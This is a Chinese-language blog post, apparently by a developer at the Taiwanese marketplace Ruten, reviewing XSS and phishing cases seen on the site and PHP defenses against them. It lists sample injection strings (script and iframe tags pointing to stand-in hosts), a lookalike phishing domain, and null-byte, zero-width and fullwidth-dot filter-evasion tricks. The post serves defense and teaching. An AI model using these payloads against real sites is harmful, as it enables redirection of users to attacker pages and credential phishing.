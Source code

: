 ```yaml
---
title: "XSS Case Study"
publishdate: "2014-06-27T12:00:00+08:00"
type: "post"
slug: "xss-case-study"
isCJKLanguage: true
---
```


## Prologue

在此對我於露天經手過的攻擊案例做一份概略的整理報告。以下列出的攻擊方式不一定會單獨出現，多半都是混合使用

## Cases

### URL Encoded Attack

攻擊者向使用者發送一段訊息，訊息裡夾帶一段類似網址的字串：`www&#46really-bad&#46com`

當使用者讀取到這段訊息，`&#46` 被瀏覽器解碼變成 `.` 之後，顯示出來的就會是 `www.really-bad.com` 這樣完整的網址

其中還有一種變體是針對 [RFC 3490](https://www.ietf.org/rfc/rfc3490.txt) 的實作所進行的攻擊方式：

> Whenever dots are used as label separators, the following characters MUST be recognized as dots: U+002E (full stop), U+3002 (ideographic full stop), U+FF0E (fullwidth full stop), U+FF61 (halfwidth ideographic full stop).

在網址中插入能被轉換為 `.` 的字元，例如 `www。really-bad。com`，這樣也會被瀏覽器解碼為有效的網址：`www.really-bad.com`

### Deceptive Phishing

攻擊者向使用者發送一段訊息，內容含有與露天網址極為相似的假網址：

> 您好，我已經下標了，麻煩確認一下這款是否還有現貨？
>
> http://goods.rutens.com.tw/item/show?12345678901234
>
> 最好可以一起合併結帳，過兩天就去匯款，請核對謝謝！

其中 `goods.rutens.com.tw` 並不是屬於露天的網址，正確的網址應該是 `goods.ruten.com.tw` 才對

而使用者點擊假網址之後，就會被重新導向到攻擊者仿造的露天登入頁面。就算使用者主動檢查登入頁面的網址，也只會看到像是 `http://members.rutens.com.tw/user/login.html` 這樣，與真正的露天登入網址極為相似的假網址

如果沒有非常仔細地檢查的話，很容易就會上當

### Code Injection

出現數量最多的攻擊方式，多半是在 `<form>` 中輸入攻擊字串，然後在使用者接收到 `<form>` 送出的內容後觸發攻擊。舉例來說：

* 將自訂商品分類的名稱命名為 `<script src=//hack.u>`，當使用者開啟賣場首頁時就會觸發，被重新導向到攻擊者的網頁
* 在發送悄悄話時插入 `<iframe src=//devil.c&#99;>` 字串。當使用者要回覆悄悄話時，因為網頁上會顯示引言的關係，所以在瀏覽器讀到攻擊字串後，使用者就會被重新導向到攻擊者的網頁
* 結帳時，在購買人的 email 欄位輸入 `<SCRIPT SRC=bad/url></SCRIPT>` 字串，當使用者查看結帳明細時就會觸發攻擊，被重新導向到攻擊者的網頁

### Control Character Injection

如果過濾規則只能阻擋像是 `www.malicious.com/hack.html` 這種格式的 URL 字串的話，攻擊者可以在字串中塞入 null byte 來騙過過濾規則。例如：`%00www.%00malicious.%00com/%00hack.%00html`

而且這段 URL 仍然可以點擊，或做為重新導向的目標

其他像是 ‍`&#x0200d;` 等 zero width character 也有相同的效果

### Web Parameter Tampering

像 `http://www.dummyurl.com/vulnerable.php?page=4%3Ciframe%20src=http://hack/you%3E` 這樣格式的 URL 就是一個典型的例子

當使用者開啟 `http://www.dummyurl.com/vulnerable.php` 時，如果沒檢查 `$_GET['page']` 的內容，就直接把它顯示在頁面上的話，瀏覽器在讀到 `%3Ciframe%20src=http://hack/you%3E`這一列時，就會跳轉到攻擊者的網頁

## Summary

簡單來說：

1. 不要相信使用者輸入的 **任何** 內容
2. 所有輸入的值 **必須且只能** 是你預期的值

而這二點在實務上會有所取捨，視情況而定

例如，在使用者收到悄悄話時，露天會另外發出一封包含悄悄話內容的通知信到使用者的信箱

此時若是信件內容中含有 code injection 的程式碼，由於各種 mail client 處理信件內容的方式不同，我們也無法預期使用者在打開信件後會發生什麼狀況。考量到開發成本，最後我們決定信件一律只包含固定內容的提示訊息。如果使用者要查看悄悄話的內容，再透過信件中的連結回到露天的網站查閱就好

以這個案例來說，就根本不用考慮「要怎麼處理信件中的字串」這種問題了

## Solutions

### PHP

* 常用的有 [`htmlentities`](http://php.net/manual/en/function.htmlentities.php) 和 [`htmlspecialchars`](http://www.php.net/manual/en/function.htmlspecialchars.php) 等
* 自 PHP 5.2 起還多了 [filter](http://www.php.net/manual/en/book.filter.php) 系列的 function，可以參考使用
* 或是使用露天自訂的 class `ParseInput` 與 `UString` 等
